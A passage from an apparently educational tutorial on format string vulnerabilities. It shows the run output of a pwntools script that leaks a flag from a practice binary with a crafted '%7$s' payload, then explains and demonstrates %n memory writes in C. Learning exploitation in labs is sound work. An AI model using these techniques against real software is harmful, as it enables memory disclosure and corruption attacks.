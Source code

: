 To execute the script we need to install [pwntools](https://github.com/Gallopsled/pwntools) in case we don't have
it. A good practice is to create a [python virtual environment](https://opensource.com/article/21/2/python-virtualenvwrapper) and then
install the python packages inside it:
```sh
$ mkvirtualenv fsv
(fsv) $ pip3 install pwntools
```

And then we execute it:
```sh
(fsv) $ python3 fsv-global-read-ex.py
[+] Starting local process './fsv-global-read': pid 5026
Program printed: b'flag is at 0x565f4008\n'
Address is 0x565f4008 -> b'\x08@_V'
Our format string: b'\x08@_V%7$s'
[*] Process './fsv-global-read' stopped with exit code 0 (pid 5026)
\x08@_VHow do you get here?
```

As we can see, the provided address of the global variable is used in our new
format string and then we are able to read it. Success!!

## Writing with format strings

Until this point we have been using the format strings for reading memory, but
what about writing? We can also use the format strings to write with the `%n`
conversion specification, that writes in the given integer the number of
characters printed until the `%n` specifier. It is important to note that it
writes the number of printed characters, not the number of previous characters
in the format string, for example `printf("I'm %s%n", "Hannah", &i)` will print
`I'm Hannah` and write the value 10 into the `i` variable. Also note that the
argument of `%n` is a pointer to an integer, not the integer itself.

Moreover, it is possible to use several `%n` conversion specifications in the
same string, each one writing the number of previous bytes. Here we have a
little example:
```c
// printf-write.c
#include <stdio.h>

void main(int argc, char** argv) {
  int i = 0;
  int x = 0;
  printf("%s%n%s%n\n", argv[1], &i, argv[2], &x);
  printf("i = %d\n", i);
  printf("x = %d\n", x);
}
```

In this example we can provide two strings and the length of the first string
will be set in the `i` variable and the total length will be set in the `x`
variable:
```
$ gcc -m32 printf-write.c -o printf-write
$ ./printf-write abc dfg
abcdfg
i = 3
x = 6
```
